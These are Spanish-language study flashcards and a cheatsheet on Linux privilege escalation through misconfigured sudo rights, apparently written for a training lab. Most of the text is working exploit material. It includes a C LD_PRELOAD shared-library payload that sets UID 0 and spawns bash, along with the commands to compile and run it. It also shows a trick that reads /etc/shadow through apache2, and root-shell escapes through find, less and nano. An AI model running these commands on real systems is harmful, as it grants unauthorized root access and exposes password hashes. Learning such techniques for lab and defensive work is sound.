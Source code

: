 ### Flashcards — Privilege Escalation with `sudo`

---

**Q:** ¿Qué comando permite ver qué programas puedes ejecutar con `sudo` y bajo qué condiciones?
**A:** `sudo -l`

---

**Q:** ¿Qué recurso central se usa para ver exploits o bypass de programas ejecutables con `sudo`?
**A:** [GTFOBins](https://gtfobins.github.io/)

---

**Q:** ¿Cómo se puede abusar de Apache2 si se tiene `sudo` sobre él?
**A:** Usando `apache2 -f /etc/shadow`, provocando un error que muestra la primera línea de `/etc/shadow`.

---

**Q:** ¿Qué es `LD_PRELOAD`?
**A:** Variable de entorno que fuerza a un programa a cargar una librería compartida antes de ejecutarse.

---

**Q:** ¿Qué condición debe cumplirse para usar `LD_PRELOAD` con `sudo`?
**A:** Que `env_keep` permita mantener la variable de entorno en `sudoers`.

---

**Q:** ¿Qué contiene un exploit básico en C con `LD_PRELOAD` para escalar privilegios?
**A:**

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/bash");
}
```

---

**Q:** ¿Cómo compilar el exploit `LD_PRELOAD` en C?
**A:**

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

---

**Q:** ¿Cómo ejecutar un binario con `LD_PRELOAD` para obtener root?
**A:**

```bash
sudo LD_PRELOAD=/ruta/shell.so <programa_permitido>
```

Ejemplo:

```bash
sudo LD_PRELOAD=/home/karen/shell.so find
```

---
### Cheatsheet — Privilege Escalation con `sudo`

| Técnica                                    | Comando / Código                                                                                                                                                                              | Resultado                                                |
| ------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------- |
| **Enumerar privilegios `sudo`**            | `sudo -l`                                                                                                                                                                                     | Lista binarios que el usuario puede ejecutar con `sudo`  |
| **Buscar binarios explotables**            | [GTFOBins](https://gtfobins.github.io/)                                                                                                                                                       | Referencia de binarios y cómo abusarlos con `sudo`       |
| **Apache2 leak**                           | `sudo apache2 -f /etc/shadow`                                                                                                                                                                 | Error muestra la primera línea de `/etc/shadow`          |
| **LD\_PRELOAD - C exploit**                | `c<br>#include <stdio.h><br>#include <sys/types.h><br>#include <stdlib.h><br><br>void _init() {<br>  unsetenv("LD_PRELOAD");<br>  setgid(0);<br>  setuid(0);<br>  system("/bin/bash");<br>} ` | Código malicioso que da shell como root                  |
| **Compilar exploit .so**                   | `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`                                                                                                                                         | Genera librería compartida maliciosa                     |
| **Ejecutar exploit con binario permitido** | `sudo LD_PRELOAD=/ruta/shell.so <programa>`                                                                                                                                                   | Eleva privilegios a root (si `env_keep` está habilitado) |
| **Ejemplo práctico con `find`**            | `sudo LD_PRELOAD=/home/karen/shell.so find`                                                                                                                                                   | Spawnea shell root                                       |

---
---
---


Significado de la salida de `sudo -l`:

---

### Defaults

* `env_reset`: limpia variables de entorno al ejecutar con `sudo`.
* `mail_badpass`: envía correo si alguien mete una contraseña incorrecta (en tu caso irrelevante porque tienes `NOPASSWD`).
* `secure_path`: restringe el `$PATH` cuando corres cosas con `sudo`.

---

### Reglas de `sudo`

```
(ALL) NOPASSWD: /usr/bin/find
(ALL) NOPASSWD: /usr/bin/less
(ALL) NOPASSWD: /usr/bin/nano
```

* `(ALL)`: puedes ejecutar como **cualquier usuario**, incluido `root`.
* `NOPASSWD`: no se te pedirá contraseña.
* `/usr/bin/find`, `/usr/bin/less`, `/usr/bin/nano`: binarios permitidos.

---

### Implicación

Tienes **ejecución directa como root** de esos tres programas.
Cada uno es explotable para obtener shell root:

1. **find**

```bash
sudo find . -exec /bin/bash \;
```

2. **less**

```bash
sudo less /etc/passwd
# dentro de less, presiona:
!bash
```

3. **nano**

```bash
sudo nano
# dentro de nano:
^R^X   (Ctrl+R, Ctrl+X)
command: reset; bash 1>&0 2>&0
```

Resultado: shell con UID=0 (root).

---
